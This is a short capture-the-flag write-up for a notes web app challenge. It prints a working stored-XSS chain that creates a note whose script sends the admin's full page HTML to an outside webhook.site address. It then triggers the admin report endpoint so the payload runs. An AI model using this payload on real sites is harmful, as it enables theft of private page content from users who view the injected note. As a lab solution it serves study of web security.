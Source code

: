 # BABY DUCKY NOTES REVENGE 
i compared files with BABY DUCKY NOTES and the difference was in creating the database.. This task have admin  note with parametr HIDDEN: TRUE…

After 10h later i found….

i created xss script

```sql
<script>
const data = {title: "dziala",   content: "<script>\n  // Funkcja do wysyłania zawartości strony na webhook\n  function sendPageContentToWebhook(url) {\n    // Pobieramy zawartość strony\n    const pageContent = document.documentElement.outerHTML;\n\n    // Tworzymy nowy obiekt XMLHttpRequest\n    const xhr = new XMLHttpRequest();\n\n    // Ustawiamy metodę i adres URL żądania\n    xhr.open('POST', url, true);\n\n    // Ustawiamy nagłówki żądania, aby wysłać dane w formacie plain text\n    xhr.setRequestHeader('Content-Type', 'text/plain');\n\n    // Obsługa zdarzenia, gdy żądanie jest gotowe\n    xhr.onreadystatechange = function() {\n      if (xhr.readyState === XMLHttpRequest.DONE) {\n        // Obsługa odpowiedzi serwera (opcjonalne)\n        if (xhr.status === 200) {\n          console.log('Zawartość strony została wysłana na webhook.');\n        } else {\n          console.error('Błąd podczas wysyłania zawartości strony.');\n        }\n      }\n    };\n\n    // Wysyłamy żądanie z zawartością strony jako dane żądania\n    xhr.send(pageContent);\n  }\n\n  // Wywołujemy funkcję, przekazując adres URL webhooka\n  const webhookURL = 'https://webhook.site/8fc412cf-ca22-436f-98b5-388322118ecf/';\n  sendPageContentToWebhook(webhookURL);\n<\/script>"
, hidden: false};
fetch(`/api/posts`, {
			method: 'POST',
			headers: {
				'Content-Type': 'application/json',
			},
			body: JSON.stringify(data),
		})
</script>
<script>
fetch(`/api/report`, {
			method: 'POST'
		})
</script>

```

this script execute endpoint to create note on admin page and in this note i insert a next XSS but with gets content page and send to my webhook. and in last stage ADMIN send report. because He must review own view page and execute script.

